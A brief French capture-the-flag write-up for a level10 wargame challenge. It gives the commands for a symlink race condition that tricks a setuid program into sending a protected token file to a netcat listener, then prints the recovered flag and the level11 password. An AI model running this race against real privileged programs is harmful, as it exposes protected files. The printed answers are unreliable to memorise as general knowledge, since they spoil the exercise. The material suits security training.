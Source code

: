 # Pré requis

aucun

## GET Flag

Il suffit de lancer ces deux commandes : 
```
chmod 777 . && touch a
(while true; do ln -sf a b; ln -sf token b; done)&
while true; do ./level10 b 127.0.0.1; done
```

Ensuite sur un nouveau shell il faut lancer cette commande :
`while true; do nc -l 6969; done`
# Flag

On obtient le flag:`woupa2yuojeeaaed06riuj63c`
On peut se connecter a flag10 et lancer la commande getflag pour obtenir le flag: `feulo4b72j7edeahuete3no7c`

On peut se connecter a level11.
```
level11
feulo4b72j7edeahuete3no7c
```
